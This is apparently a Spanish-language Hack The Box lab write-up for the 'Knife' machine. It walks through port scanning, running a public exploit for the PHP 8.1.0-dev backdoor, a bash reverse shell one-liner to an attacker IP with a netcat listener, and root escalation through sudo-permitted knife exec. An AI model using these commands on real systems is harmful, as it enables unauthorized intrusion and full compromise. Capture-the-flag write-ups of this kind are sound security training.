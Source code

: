 ```yaml
---
title: Knife
parent: Easy
nav_order: 1
---
```


# Walkthrough — Knife (Hack The Box)
{: .fs-9 }

> Una aventura divertida y directa en la máquina *Knife* de HTB. Aquí te muestro cómo logré acceso como root aprovechando una backdoor en PHP y un binario mal configurado. 🎯
{: .fs-6 .fw-300 }

---

## 🔰 Introducción

**Knife** es una máquina de dificultad *Easy*, ideal para practicar reconocimiento web y escalada de privilegios.  
¿Lo mejor? ¡Una puerta trasera en PHP nos da la bienvenida! 🕵️‍♂️

- SO: Linux  
- Dificultad: Easy  
- Herramientas: `nmap`, `ffuf`, `netcat`, `python`

---

## 🔍 Escaneo de puertos con Nmap

Como siempre, empiezo con una mirada rápida a todos los puertos disponibles:

```bash
nmap -sC -sV -p- -T4 10.10.10.242
```

> Escaneo completo + detección de servicios. ¡Vamos con todo!

![Resultado de Nmap](/assets/images/knife/01-nmap.png)

---

## 🧠 Primer vistazo: servicios interesantes

Nmap nos revela dos servicios abiertos:

- `22/tcp` → SSH  
- `80/tcp` → HTTP corriendo **PHP 8.1.0-dev** 👀

PHP en versión dev... eso huele a peligro (para ellos). 😏

---

## 🚪 Buscando rutas ocultas con ffuf

Fuzzear es clave para encontrar puertas escondidas. Usé:

```bash
ffuf -u http://10.10.10.242/FUZZ -w Discovery/Web-Content/common.txt -mc 200,204,301,302,307,403 -fs 401 -t 40
```

![ffuf en acción](/assets/images/knife/02-ffuf.png)

¡Y encontramos `index.php`!

---

## 🔬 Revisando el tráfico con Burp

Una visita al `index.php` y capturamos la respuesta con Burp Suite:

![Burp inspección](/assets/images/knife/03-burp.png)

Respuesta 200 OK. Está activo y esperando... ☕️

---

## 💣 Explotación: PHP 8.1.0-dev con backdoor

¡Hora de atacar! Encontré un script en GitHub que aprovecha una **backdoor** en PHP 8.1.0-dev. Ideal.

```bash
python php-8.1.0-dev-rce.py -u http://10.10.10.242
```
![github](/assets/images/knife/05b-github.png)


![Ejecutando el exploit](/assets/images/knife/05-exploit-running.png)

---

## 🐚 Shell invertida a la vista

Desde esa shell lanzamos una reverse shell a nuestra máquina:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.16/4444 0>&1"
```

Y por acá la recibimos con netcat:

```bash
nc -lvnp 4444
```

![Reverse Shell iniciada](/assets/images/knife/07b-nc-listening.png)

![Ejecutando el reversr](/assets/images/knife/05c-exploit-running.png)

---

## 🧍‍♂️ Flag de usuario

Ya como `james`, leemos nuestra primera recompensa:

```bash
whoami
cat user.txt
```

![User flag](/assets/images/knife/08-user-flag.png)

---

## 🧨 Escalada de privilegios con knife

Revisamos los permisos sudo:

```bash
sudo -l
```

¡Sorpresa! Podemos ejecutar `/usr/bin/knife` como root sin contraseña. 😮

![Sudo Knife](/assets/images/knife/09-sudo-knife.png)

Ejecutamos bash desde knife:

```bash
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```

¡Boom! Ahora somos root. 👑

![Root shell](/assets/images/knife/10-root-shell.png)

---

## 🏁 Flag de root

Terminamos con broche de oro:

```bash
cd /root
cat root.txt
```

![Flag root](/assets/images/knife/11-root-flag.png)

---

## 🎉 Resumen final

| Etapa           | Resultado                         |
|-----------------|-----------------------------------|
| Enumeración     | PHP 8.1.0-dev encontrado          |
| Explotación     | Backdoor → acceso a `james`       |
| Escalada        | Abuso de `/usr/bin/knife`         |
| Flags obtenidas | `user.txt` y `root.txt` ✔️        |

---

¡Y así completamos la máquina Knife con éxito! 🔪  

**Autor:** [gueco99](https://github.com/gueco99)  
🧠 Hack the Box – *Knife* (Easy)
